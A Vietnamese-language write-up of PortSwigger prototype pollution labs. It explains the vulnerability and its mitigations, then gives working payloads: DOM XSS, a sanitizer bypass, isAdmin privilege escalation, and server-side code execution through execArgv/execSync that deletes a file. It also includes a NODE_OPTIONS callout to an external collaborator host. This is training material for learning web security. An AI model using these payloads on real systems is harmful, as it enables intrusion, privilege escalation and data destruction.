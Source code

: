 # Prototype Pollution

Source —> gadget —> sink

# Prototype trong javascript

![image.png](Images/image.png)

![image.png](Images/image%201.png)

khi goị `new Person()`, object mới này sẽ kế thừa tất cả thuộc tính từ `Person.prototype`

(thay vì tạo method `showFullName` trong object Person thì ta có thể tạo 1 prototype [nguyên mẫu] cho Person để tránh trùng lặp và đỡ tốn tài nguyên vì mỗi lần gọi `new Person` sẽ tạo 1 bản sao mới của hàm và sẽ có nhiều bản sao của method `showFullName`) 

# Giới thiệu

Prototype Pollution là 1 lỗ hổng cho phép attacker thêm thuộc tính bất kỳ vào `Object.prototype` (object gốc của tất cả object) ở global trong javascript. Các object khác có thể sẽ kết thừa từ `Object.prototype` và làm ảnh hưởng đến toàn bộ chương trình

Một số browser như Chrome cho phép truy cập vào prototype của object thông qua property `__proto__`

## Prototype chain

khi ta truy cập vào 1 property của object, JavaScript sẽ tìm property đó bên trong chính object, nếu không có thì sẽ tìm đến `prototype` của object, và cứ tiếp tục như thế cho đến khi gặp `Object.prototype` thì dừng và cho ra kết quả (undefined nếu không tìm thấy)

# Root Cause

Server cho phép ghi dữ liệu không kiểm soát vào Object.prototype (merge provery không an toàn)

Prototype pollution có thể dãn đến DOM XSS, Privilege escalation, RCE

# Cách phòng tránh

- Không cho phép thay đổi thuộc tính của object.prototype: `Object.freeze(Object.prototype)`
- Tạo object không thể kế thừa object.prototype: `Object.create(null)` (vẫn có thể chỉnh sửa các thuộc tính ngoài  object.prototype thủ công)
- Kiểm tra đầu vào, filter các thuộc tính như`__proto__, constructor, prototype`

# Practice

# **Client-side prototype pollution**

## **Lab1: [DOM XSS via client-side prototype pollution](https://portswigger.net/web-security/prototype-pollution/client-side/lab-prototype-pollution-dom-xss-via-client-side-prototype-pollution)**

Để hoàn thành lab ta cần thực hiện `alert()`

Thử thêm cặp `key:value` vào object.prototype thông qua url

payload: `?__proto__[test]=test`

![image.png](Images/image%202.png)

Vào phần Inspect → Console → object.prototype kiểm tra

![image.png](Images/image%203.png)

—> Đã thêm thuộc tính thành công !

Bây h ta sẽ tìm gadget nào có thể bị exploit

Trong file searchLogger.js lưu trên  page source code phụ trách search function

![image.png](Images/image%204.png)

Phân tích:

- Tạo object `config` không có thuộc tính `transport_url`
- `Deparam` sẽ phân tách tham số truyền vào thành các cặp key:value (thuộc tính) của object config
- Phải làm cho `if(config.transport_url)` chạy để thực hiện payload thông qua `script.src` (<script src=payload>)

Thêm thuộc tính `transport_url` vào object.prototype có value là payload, khi này do config ko có `transport_url` ở dòng `if` nên nó sẽ tìm đến object.prototype thông qua `prototype chain` (lúc đầu có thể là undefined) và payload sẽ được truyền script vì dòng `if bây h là True` và dẫn đến alert()

payload: `?__proto__[transport_url]=data:,alert(1);` (`data:` cho phép nhúng trực tiếp javascript code vào url)

![Screenshot 2025-04-11 142106.png](Images/Screenshot_2025-04-11_142106.png)

## Lab2: [DOM XSS via an alternative prototype pollution vector](https://portswigger.net/web-security/prototype-pollution/client-side/lab-prototype-pollution-dom-xss-via-an-alternative-prototype-pollution-vector)

Để hoàn thành lab ta cần thực hiện `alert()`

Thử truyền payload vào url

payload: `?__proto__[test]=test`

![image.png](Images/image%205.png)

—> Thêm thuộc tính vào object.prototype ko thành công!

Thử syntax khác

payload: `?__proto__.test=test`

![image.png](Images/image%206.png)

—> Thêm thành công !

Trong file searchLoggerAlternative.js

![image.png](Images/image%207.png)

Phân tích:

- Tạo object `manager` không cso thuộc tính `sequence`
- Khi đó: let a = undefined || 1 (vì ko có `sequence`) —> a = 1 —> manager.sequence = 2 —> `eval()`

Lợi dụng `eval()` để thực hiện `alert()`

Tạo  thuộc tính `sequence` trong `object.prototype` có value=”alert(1)-”

Khi đó: let a = ”alert(1)-” || 1 —> a = ”alert(1)-” —> manager.sequence = ”alert(1)-1” 

—> `eval( ”alert(1)-1” )`

payload: `?__proto__.sequence=alert(1)-`

alert thành công !

![image.png](Images/image%208.png)

## Lab3: [Client-side prototype pollution via flawed sanitization](https://portswigger.net/web-security/prototype-pollution/client-side/lab-prototype-pollution-client-side-prototype-pollution-via-flawed-sanitization)

Để hoàn thành lab ta cần bypass hàm **sanitization và** thực hiện `alert()`

Trong searchLoggerFiltered.js

![image.png](Images/image%209.png)

Thử truyền payload vào url

payload: `?__proto__[test]=test`

![image.png](Images/image%205.png)

payload không hoạt động vì hàm `sanitizeKey()` đã replace “__proto__” thành ‘’

![image.png](Images/image%2010.png)

Nhưng do hàm này chỉ replace có 1 lần nên ta có thể bypass bằng cách chèn “__proto__” vào ngay giữa “__proto__” —> `“**__pro__proto__to__”` —>** khi replace sẽ thành `“__proto__”`

?__**pro__proto__to__[test]=test**

![image.png](Images/image%206.png)

—> Thêm thuộc tính vào object.prototype thành công !

payload: `?__**pro__proto__to__**[transport_url]=data:,alert(1);`

![image.png](Images/image%2011.png)

## Lab4: [Client-side prototype pollution in third-party libraries](https://portswigger.net/web-security/prototype-pollution/client-side/lab-prototype-pollution-client-side-prototype-pollution-in-third-party-libraries)

Lab này recommend sử dụng `DOM Invader` và thực hiện `alert(document.cookie)` trên máy của nạn nhân bằng cách gửi payload thông qua exploit server

Thêm extension `DOM Invader` vào browser của burpsuite

Sau khi reload lại lab thì DOM invader đã tìm được source để exploit bằng cách thông qua url

![image.png](Images/image%2012.png)

payload tìm thấy có dạng: `#__proto__[test]=test`

Nhấn vào Test

payload: `#__proto__[testproperty]=DOM_INVADER_PP_POC`

![image.png](Images/image%2013.png)

![Screenshot 2025-04-12 172802.png](Images/Screenshot_2025-04-12_172802.png)

—> Thêm thuộc tính vào object.prototype thành công !

Nhấn Scan for gadgets

![Screenshot 2025-04-12 173317.png](Images/Screenshot_2025-04-12_173317.png)

`DOM Invader` đã tự động tìm được gadget là `hitCallback`

Nhấn exploit

payload: `#__proto__[hitCallback]=alert%281%29`

![Screenshot 2025-04-12 173409.png](Images/Screenshot_2025-04-12_173409.png)

—> alert thành công !

Trong exploit server —> Body —> tạo payload như sau:

![image.png](Images/image%2014.png)

—> Deliver exploit to victim

![image.png](Images/image%2015.png)

## **Lab5: [Client-side prototype pollution via browser APIs](https://portswigger.net/web-security/prototype-pollution/client-side/browser-apis/lab-prototype-pollution-client-side-prototype-pollution-via-browser-apis)**

[https://portswigger.net/web-security/prototype-pollution/client-side/browser-apis](https://portswigger.net/web-security/prototype-pollution/client-side/browser-apis)
Để hoàn thành lab ta cần thực hiện `alert()`

Trong file searchLoggerConfigurable.js

![image.png](Images/image%2016.png)

`Object.defineProperty(config, 'transport_url', {configurable: false, writable: false});`

Phân tích:

- Khởi tạo thuộc tính `transport_url` cho object `config` thông qua method `defineProperty()`
- Ko thể chỉnh sửa `transport_url` vì `{configurable: false, writable: false}`

Lưu ý rằng khi sử dụng method `defineProperty()` cần khai báo thuộc tính`value` như sau

![image.png](Images/image%2017.png)

Do value của `transport_url` không được khai báo nên khi này `transport_url.value = undefined` 

—> Ta sẽ tạo thuộc tích `value` trong Object.prototype và transport_url sẽ kế thừa `value` từ Object.prototype

payload: `?__proto__[value]=data:,alert(1);`

![image.png](Images/image%2018.png)

# **Server-side prototype pollution**

## **Lab6: [Privilege escalation via server-side prototype pollution](https://portswigger.net/web-security/prototype-pollution/server-side/lab-privilege-escalation-via-server-side-prototype-pollution)**

Để hoàn thành lab cần vào admin pannel và `xóa carlos`

Đăng nhập `wiener:peter` —> Submit Billing and Delivery Address

HTTP request sẽ được gửi đi với các thông tin dưới dạng JSON-based input

![image.png](Images/image%2019.png)

Thử thêm thuộc tính vào object mà HTTP request gửi đi

payload: `"__proto__": {"foo":"bar"}`

![image.png](Images/image%2020.png)

`"foo":"bar"` đã hiện thỉ ở phần response —> tức là đã thêm thuộc tính vào server-side thành công !

Để ý rằng thuộc tính isAdmin không phải do user kiểm soát và nó có khả năng được kế thừa từ object.prototype

Sửa`"isAdmin":true` trong object.prototype

payload: `"__proto__": {"isAdmin":true}`

![image.png](Images/image%2021.png)

—> Sửa value của thuộc tính thành công !

Do thuộc tính được thêm thẳng vào server-side nên user nào cũng có thể làm admin —> refresh page

Vào admin panel → delete carlos

![image.png](Images/image%2022.png)

## **Lab7: [Detecting server-side prototype pollution without polluted property reflection](https://portswigger.net/web-security/prototype-pollution/server-side/lab-detecting-server-side-prototype-pollution-without-polluted-property-reflection)**

Lab này có mục đích giúp thực hành `non-destructive detection techniques`, lab sẽ không reflect những thay đổi mà ta đã POST trong HTTP request. 

To solve the lab, confirm the vulnerability by polluting `Object.prototype` in a way that triggers a noticeable but non-destructive change in the server's behavior.

Thử thêm thuộc tính vào object mà HTTP request gửi đi

payload: `"__proto__": {"foo":"bar"}`

![Screenshot 2025-04-12 195141.png](Images/Screenshot_2025-04-12_195141.png)

—> Không có gì bất thường trong response

Thử làm cho server bị lỗi 

![image.png](Images/image%2023.png)

`“foo”: “bar”` đã được thêm vào server-side nhưng chỉhông hiển thi trong HTTP response (ko reflect)

Ta có thể tiếp cận trường hợp này bằng cách thử chèn những thuộc tính có khả năng là các thuộc tính trong phần configuration của server: Status code override, JSON spaces override, Charset override

Status code override:

payload: `"__proto__": {"status":444}`

![image.png](Images/image%2024.png)

Lúc này mỗi khi xảy ra lỗi, trong HTTP response sẽ có status code 444

![image.png](Images/image%2025.png)

## **Lab8: [Bypassing flawed input filters for server-side prototype pollution](https://portswigger.net/web-security/prototype-pollution/server-side/lab-bypassing-flawed-input-filters-for-server-side-prototype-pollution)**

Để hoàn thành lab cần vào admin pannel và `xóa carlos`

Thử thêm thuộc tính vào object mà HTTP request gửi đi

payload: `"__proto__": {"foo":"bar"}`

![Screenshot 2025-04-12 200839.png](Images/Screenshot_2025-04-12_200839.png)

—> Không có thay đổi nào

khi error cũng không có thay đổi

![image.png](Images/image%2026.png)

Trong document của portswigger có gợi ý rằng ta có thể sử dụng `constructor.prototype` để bypass khi server đã filter `__proto__`

![image.png](Images/image%2027.png)

`myObject.constructor.prototype` tương tự `myObject.__proto__`

payload: `"constructor": {"prototype": {"foo":"bar"} }`

![image.png](Images/image%2028.png)

—> `"foo":"bar"` đã được thêm vào server-side và reflect thông qua HTTP response

payload: `"constructor": {"prototype": {"isAdmin":true} }`

![image.png](Images/image%2029.png)

![Screenshot 2025-04-12 203925.png](Images/Screenshot_2025-04-12_203925.png)

## **Lab9: [Remote code execution via server-side prototype pollution](https://portswigger.net/web-security/prototype-pollution/server-side/lab-remote-code-execution-via-server-side-prototype-pollution)**

link: [https://nodejs.org/api/child_process.html](https://nodejs.org/api/child_process.html)

Để hoàn thành lab cần RCE và xóa /home/carlos/morale.txt

Thử thêm thuộc tính vào object mà HTTP request gửi đi

payload: `"__proto__": {"foo":"bar"}`

![image.png](Images/image%2030.png)

Test payload:

"__proto__": {
"shell":"node",
"NODE_OPTIONS":"--inspect=[q3uj3i6yyfqge3n9qa2jkahqzh58tyhn.oastify.com](http://q3uj3i6yyfqge3n9qa2jkahqzh58tyhn.oastify.com/)\"\".oastify\"\".com"
}

![image.png](Images/image%2031.png)

Đã gửi DNS về burp collaborator thành công

![image.png](Images/image%2032.png)

—> Payload này dùng để kiểm tra xem server có thực hiện debug (—inspect) và gửi thông báo về burp collaborator dẫn đến RCE hay không

![image.png](Images/image%2033.png)

**`Never pass unsanitized user input to this function. Any input containing shell metacharacters may be used to trigger arbitrary command execution.`**

Khi gọi `execSync()`, Node.js sẽ chạy lệnh trong một tiến trình con và đợi cho đến khi tiến trình đó kết thúc.

![image.png](Images/image%2034.png)

`execArgv` là array chứa các tham số dòng lệnh để truyền cho tiến trình con 

payload:

`"__proto__": {"execArgv":["--eval=require('child_process').execSync('rm /home/carlos/morale.txt')"]}`

![Screenshot 2025-04-12 210249.png](Images/Screenshot_2025-04-12_210249.png)